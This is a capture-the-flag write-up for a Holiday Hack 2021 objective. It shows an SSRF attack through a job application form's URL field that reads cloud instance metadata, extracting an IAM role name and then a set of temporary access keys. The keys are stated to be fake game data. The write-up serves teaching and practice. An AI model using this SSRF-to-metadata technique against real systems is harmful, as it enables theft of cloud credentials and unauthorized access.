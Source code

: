 # Objective 10: Now Hiring!
**Location: https://apply.jackfrosttower.com/**  
**Hints provided by Noxious O. D'or after completion of [IMDS Exploration](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md)**

This objective is to get familiar with SSRF using IMDS URLs.

The website's application form consumes the user's name, resume (as file upload) and the URL to the public NLBI report.

After the submission, the item specified by the URL is retrieved by the website and then shown on the "submission accepted" screen using the URL https://apply.jackfrosttower.com/images/{username}.jpg  
As this is delivered with an image MIME type, the browser refuses to render it. But it can be made visible using cURL or Burp Suite.

By choosing the right IMDS URLs, the secret access key for the S3 bucket can be retrieved using CURL:

URL 1 (get role name):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials
```
Result:
```
joergen@northpole:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
jf-deploy-role
```

URL 2 (get security credentials for this role):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
```

```
joergen@northpole:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
```
```json
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```
So the secret access key for the S3 bucket is **CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX**

**Achievement: SSRF to IMDS to S3 Bucket Access**

### Additional Information

This objective uses the same IMDS dataset as the [IMDS Exploration terminal](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md).
For the terminal it is confirmed to be fake information hosted from a local process. In addition - due to the fact, that the region `np-north-1` is not a valid AWS region, it does not make sense trying to get access to a related S3 bucket.
